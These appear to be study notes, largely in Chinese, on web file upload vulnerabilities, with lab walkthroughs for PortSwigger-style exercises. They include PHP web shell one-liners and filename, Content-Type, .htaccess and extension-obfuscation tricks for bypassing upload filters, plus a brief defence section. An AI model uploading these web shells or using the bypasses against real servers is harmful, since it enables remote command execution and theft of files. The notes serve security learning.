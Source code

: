 ## File upload vulnerabilities
- Web Shell  / reverse Shell
- 伺服器配置允許某些類型的文件（例如.php和.jsp)
- 最糟糕的情況是網站允許你上傳伺服器端腳本（例如 PHP、Java 或 Python 檔案）<br>

## PHP 
- "<"?php echo file_get_contents('/path/to/target/file'); ?">"
- "<"?php echo system($_GET['command']); ?">"
- GET /example/exploit.php?command=id HTTP/1.1

**Lab: Remote code execution via web shell upload**
-  圖片上傳功能
- 不會對其進行任何驗證 
- upload exploit.php (<"?php echo file_get_contents('/home/carlos/secret'); ?">)
- GET /files/avatars/exploit.php HTTP/1.1 <br>

## 防禦措施
- 檢查此輸入特定的Content-Type標頭是否與預期的 MIME 類型相符
- Request header:
    - Content-Type:application/x-www-form-url-encoded
    - Content-Type: multipart/form-data
- Content-Type標頭，用於告知伺服器使用此輸入框提交的資料的 MIME 類型
- Content-Disposition標頭，用於提供與其相關的輸入欄位的一些基本資訊
- e.g if 伺服器只接受圖像文件，則可能只允許諸如image/jpeg和 之類的類型image/png
  
**Lab: Web shell upload via Content-Type restriction bypass**
- change Content-Type : image/jpeg

**Lab: Web shell upload via path traversal**
- Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
- filename="..%2fexploit.php"
- GET /files/exploit.php

## 黑名單
- 鮮為人知的替代檔案副檔名 e.g .php5 .shtml
- /etc/apache2/apache2.conf
    - LoadModule php_module /usr/lib/apache2/modules/libphp.so <br>
        AddType application/x-httpd-php .php
- Apache 伺服器 : (.htaccess)
- IIS 伺服器 : (web.config)
    - <"staticContent>
        <"mimeMap fileExtension=".json" mimeType="application/json" /"><br>
        </staticContent">
<br>
**Lab: Web shell upload via extension blacklist bypass**
- filename : .htaccess
- Content-Type : text/plain
- AddType application/x-httpd-php .l33t
- exploit.l33t 

## Obfuscating file extensions
- 多個擴充名 : exploit.php.jpg
- 新增尾隨字元 : exploit.php.
- 使用 URL 編碼 : exploit%2Ephp
- 加上分號 : exploit.asp;.jpg
- 加上URL 編碼的空位元組字元 : exploit.asp%00.jpg
- 使用多位元組 Unicode 字符 : xC0 x2E、xC4 xAE、xC0 xAE會轉換為x2E
- 剝離 : exploit.p.phphp <br>
**Lab: Web shell upload via obfuscated file extension**
- filename="exploit.php%00.jpg"
- exploit.php

## Flawed validation

